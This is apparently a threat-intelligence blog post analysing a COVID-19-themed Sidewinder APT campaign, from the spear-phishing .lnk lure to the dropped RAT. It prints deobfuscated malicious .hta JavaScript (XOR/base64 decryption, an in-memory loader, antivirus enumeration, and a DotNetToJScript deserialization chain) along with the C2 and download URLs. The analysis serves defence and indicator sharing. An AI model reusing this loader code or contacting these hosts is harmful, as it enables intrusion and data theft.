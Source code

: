 ```yaml
---
layout: post
title: "Sidewinder: COVID-19 Themed Attack Campaign"
date: 2020-04-10 06:00:00 +0530
categories: ["threatresearch"]
tags: ["sidewinder","rattlesnake","india","pakistan","covid19","apt"]

---
```


Cyber-criminals and nation-backed threat actors are highly utilizing the COVID-19 pandemic as a lure to gain access to critical infrastructure inside organizations.

## Background
Sidewinder a.k.a Rattlesnake is believed to be an Indian state-backed APT group. The threat group actively conducts operations targeting military and government infrastructure in Pakistan and China and is believed to be operating since 2012.

## Source of Discovery
The malware sample discovery belongs to the [__RedDrip__](https://twitter.com/RedDrip7) Team who shared two VirusTotal reports.

- [__966029e.hta__](https://www.virustotal.com/gui/file/3d5f133790f807270f6a64743cb593673f820bca4aba406ee08fda1429a340bd/detection)
- [__Cb2e3e0[1].hta__](https://www.virustotal.com/gui/file/d302e75752341090fcc9a04bdf8ae8300cc4746b2c4abf7539daafaae275c1f0/detection)

## Intrusion Point
The initial intrusion point of the attack is a spear-phishing email sent to the target. The email contains an executable .lnk file that fakes itself as a PDF. The victim tries to open the PDF and the malicious .lnk file unintentionally gets executed.

<div><center><img src="/assets/img/posts/2020-04-21-lnk-file.png" title="Spear-Phishing .lnk File"></center></div>
<br>
The malicious .lnk file contains the address of command and control domain. As soon as the file is executed, the embedded command is executed which downloads the stage-1 .hta dropper from `http://www.nrots.net/images/5328C28B/15936/11348/7c8d64e9/e17e25e`.

## Malware Analysis
The malware dropper 966029e.hta contains highly obfuscated JavaScript code which can be divided into 4 blocks for understanding. Each block of code is meant for different purposes during the first phase of attack.

### Decryption Block
The very first function is meant for decoding any base64 string passed to it. The second function consumes an XOR key and a base64 string resulting in decrypted payload. The third function takes a base64 string and sends it to the second function to XOR with a key that is stored in the variable "keeee". Doing an XOR of the hardcoded base64 string "fGNWc3tkXnB0Zg==" with the hardcoded key "MUgF" results in the value of keeee "1615619693" which will be used to de-obfuscate the embedded payload.

```javascript
function YiJr(str){
    var b64 = "ABCDEFGHIJKLMNOPQRSTUVWXY"+"Zabcdefghijklmnopqrstuvwxyz0123456789+/="
    var b, result = "",
       r1, r2, i = 0;
    for (; i < str.length;) {
        b = b64.indexOf(str.charAt(i++)) << 18 | b64.indexOf(str.charAt(i++)) << 12 |
            (r1 = b64.indexOf(str.charAt(i++))) << 6 | (r2 = b64.indexOf(str.charAt(i++)));
        result += r1 === 64 ? vLpfue(b >> 16 & 255) :
            r2 === 64 ? vLpfue(b >> 16 & 255, b >> 8 & 255) :
            vLpfue(b >> 16 & 255, b >> 8 & 255, b & 255);
    }
    return result;
    };
function xStrAmh (key, bytes){
    var res = [];
    for (var i = 0; i < bytes.length; ) {
        for (var j = 0; j < key.length; j++) {
            res.push(vLpfue((bytes.charCodeAt(i)) ^ key.charCodeAt(j)));
            i++;
            if (i >= bytes.length) {
                j = key.length;
            }
        }
    }
    return res.join("")
}
function rBEokCwZ(bsix){
    return xStrAmh(keeee,YiJr(bsix))
}
var keeee = xStrAmh("MUgF",YiJr("fGNW"+"c3tk"+"XnB0"+"Zg=="));
```

### Memory Writing Block
The decryption block decrypts the embedded binary which is loaded into the memory by the memory writing block of the JS script. The following code was decrypted using the functions from the decryption block:

```javascript
function Func4(b) {
    var enc = new ActiveXObject1("System.Text.ASCIIEncoding");
    var length = enc["GetByteCount_2"](b);
    var ba = enc["GetBytes_4"](b);
    var transform = new ActiveXObject1("System.Security.Cryptography.FromBase64Transform");
    ba = transform["TransformFinalBlock"](ba, 0, length);
    var ms = new ActiveXObject1("System.IO.MemoryStream");
    ms.Write(ba, 0, (length / 4) * 3);
    ms.Position = 0;
    dash = ms;
}
```

### Enumeration Block
The enumeration block enumerates the victim machine in an attempt to find the current version of .NET framework installed on it. The following code was decrypted using the functions from the decryption block:

```javascript
var shells = new ActiveXObject1("WScript.Shell");
function tPYpmq(){
    var net = "";
    var FSO = new ActiveXObject1("Scripting.FileSystemObject");
    var folds = FSO.GetFolder(FSO.GetSpecialFolder(0)+"\Microsoft.NET\Framework\ ").SubFolders;
    e = new Enumerator(folds);
    var folder;
    e.moveFirst();   
    while (e.atEnd() == false)  
    {  
        folder = e.item();
        var files = folder.files;
        var fileEnum = new Enumerator(files);
        fileEnum.moveFirst(); 
        while(fileEnum.atEnd() == false){
        if(fileEnum.item().Name == "csc.exe")
        {
            if(folder.Name.substring(0,2)=="v2")
                return "v2.0.50727";
            else if(folder.Name.substring(0,2)=="v4")
                return "v4.0.30319";
            }
            fileEnum[moveNext](); 
        }
        e[moveNext]();
    }
    return folder.Name;
}
ver = v2.0.50727;
try {
    ver = Func5();
} catch(e) { 
    ver = "v2.0.50727";
}
```

### CnC Block
The CnC block collects information about installed anti-virus software and its current status of updates on the victim machine. This information is then used to craft a URL ```http://www.d01fa.net/plugins/16364/11542/true/true/``` to communicate with the command and control server and download the related payload.

```javascript
shells.Environment("Process")(COMPLUS_Version) = ver;;
    var objWMIService = GetObject("winmgmts:\\.\root\SecurityCenter2");
    var colItems = objWMIService.ExecQuery("Select * From AntiVirusProduct", null, 48);
    var objItem = new Enumerator(colItems); 
    var x = "";
    for (; !objItem.atEnd(); objItem[moveNext]()) {
    x += (objItem.item().displayName + " " + objItem.item().productState).replace(" ", "");
    }
    var stm = Func4(so.split(".").join(''));
    var fmt = new ActiveXObject1("System.Runtime.Serialization.Formatters.Binary.BinaryFormatter");
    var al = new ActiveXObject1("System.Collections.ArrayList");
    var d = fmt["Deserialize_2"](dash);
    al.Add(undefined);
    var o = d["DynamicInvoke"](al.ToArray())["CreateInstance"](ec);
    if(x && x.length){
        x = x + "_stg1";
    }
    var aUrl = "http://www.d01fa.net/plugins/16364/11542/true/true/"+x;
```

### Embedded Binary & Decoy
Within the dropper, two variables contain huge encrypted strings. One of the variables contains the stage-2 binary that is decrypted and written directly into the memory. The second variable contains content of a decoy PDF which is decrypted and shown to the victim. Analysis of the binary embedded in the former variable reveals its original name as ___LinkZip.dll___. The binary is a [__DotNetToJScript__](https://github.com/tyranid/DotNetToJScript) converter written by [James Forshaw](https://twitter.com/tiraniddo).

<div><center><img src="/assets/img/posts/2020-04-21-embedded-binary.png" title="Embedded DotNetToJScript Binary"></center></div>
<br>
The dropper also downloads a variant of the malware named [file.hta](https://www.virustotal.com/gui/file/34ab2e72624e808efa66cccb9ea2ec086b02927165dfc00d477cf573ffff2761/detection) for persistence. The decryption mechanism of the __file.hta__ is the same as the .hta dropper and is responsible for dropping the following binaries `C:\ProgramData\`

- [__Duser.dll__](https://www.virustotal.com/gui/file/c69456894fb70e6dfb4ef38bc926f8fc90a82a7b9427f429581a7cee22e09411/detection) - XOR decryptor for file containing the RAT
- SOHYXY.tmp - Encrypted payload decrypted by Duser.dll
- rekeywiz.exe - Windows legit binary
- rekeywiz.conf - configuration file for rekeywiz.conf

_Duser.dll_ decrypts the file named _"SOHYXY.tmp"_ and deploys the RAT for performing reconnaissance on the victim machines. The commands issued by the C2 server are stored in an encrypted file named [__font__](https://www.virustotal.com/gui/file/5e20dcef43ed82e97b881220f0e6971af364874f42849cea6e90030ebbd69f6c/detection). After decryption using the already discussed methodology, the C2 commands are revealed indicating that the stolen information is sent to `cloud-apt.net`
<br>
<br>

---
[___IOCs and YARA Signatures___](https://github.com/Ebryx/IOCs/blob/master/SideWinder/yara.yar)
